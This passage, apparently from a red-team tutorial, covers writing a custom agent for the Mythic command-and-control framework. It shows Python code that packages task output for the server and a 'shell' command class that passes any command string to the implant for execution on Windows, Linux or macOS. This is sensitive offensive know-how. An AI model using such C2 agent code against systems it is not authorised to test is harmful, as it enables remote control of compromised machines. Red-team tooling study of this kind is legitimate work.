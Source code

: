     uuidTask = data[:36]
    data = data[36:]
    output, data = getBytesWithSize(data)
    jsonTask = {
        "task_id": uuidTask.decode('cp850'),
        "user_output":output.decode('cp850'),
    }

    jsonTask["completed"] = True
    resTaks.append(jsonTask)
    
    dataJson = {
        "action": "post_response",
        "responses": resTaks
    }
    return dataJson

{% endhighlight %}

### The Shell Command - Mythic side

Finally, we also need to create a python file for our shell function !
This code goes into the agent_functions folder, and Mythic will add it to our available command list when building the next payload.

This allows to declare the expected arguments of the function, along with some specific data verification we might want to add.
In our case, we do not want to implement anything else : the arguments we pass will be straight up sent to the agent.


{% highlight python %}
from mythic_container.MythicCommandBase import *
from mythic_container.MythicRPC import *


class ShellArguments(TaskArguments):
    def __init__(self, command_line, **kwargs):
        super().__init__(command_line, **kwargs)
        self.args = [
            CommandParameter(
                name="command", 
                type=ParameterType.String, 
                description="Command to run"
            ),
        ]

    async def parse_arguments(self):
        if len(self.command_line) == 0:
            raise ValueError("Must supply a command to run")
        self.add_arg("command", self.command_line)

    async def parse_dictionary(self, dictionary_arguments):
        self.load_args_from_dictionary(dictionary_arguments)

class ShellCommand(CommandBase):
    cmd = "shell"
    needs_admin = False
    help_cmd = "shell {command}"
    description = "This runs {command} in a terminal."
    version = 1
    author = "@RedTeamSNCF"
    attackmapping = ["T1059"]
    argument_class = ShellArguments
    attributes = CommandAttributes(
        supported_os=[ SupportedOS.MacOS, SupportedOS.Linux, SupportedOS.Windows ]
    )

    async def create_tasking(self, task: MythicTask) -> MythicTask: